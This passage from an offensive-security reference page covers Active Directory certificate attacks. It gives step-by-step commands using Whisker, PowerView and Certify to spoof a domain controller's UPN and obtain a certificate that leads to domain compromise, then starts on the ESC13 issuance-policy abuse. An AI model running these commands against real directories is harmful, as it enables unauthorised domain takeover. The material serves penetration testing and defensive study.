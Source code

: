Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@domain.local**.

First, the **user2**'s credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```batch
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of **user2** is changed to **DC$@domain.local** with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**.**

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@domain.local'} -Verbose
```

A certificate permitting client authentication can be requested in a **user2** session.

```batch
Certify.exe request /ca:'domain\ca' /template:"User"
```

The **user2**'s UPN is changed back to something else.

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.
{% endtab %}
{% endtabs %}

### Issuance policiy with privileged group linked (ESC13) <a href="#esc13-issuance-policiy-with-privileged-group-linked" id="esc13-issuance-policiy-with-privileged-group-linked"></a>

For a group to be linked to an issuance policy via `msDS-OIDToGroupLink` it must meet two requirements:

* Be empty
* Have a universal scope, i.e. be "Forest Wide". By default, "Forest Wide" groups are "Enterprise Read-only Domain Controllers", "Enterprise Key Admins", "Enterprise Admins" and "Schema Admins"

So, if a user or a computer can enroll on a template that specifies an issuance policy linked to a highly privileged group, the issued certificate privilegies will be mapped to those of the group.

To exploit ESC13, here are the requirements:

* The controlled principal can enroll to the template and meets all the required issuance policies
* The template specifies an issuance policy
* This policy is linked to a privileged groups via `msDS-OIDToGroupLink`
* The template allows the Client Authentication in its EKU
* All the usual requirements
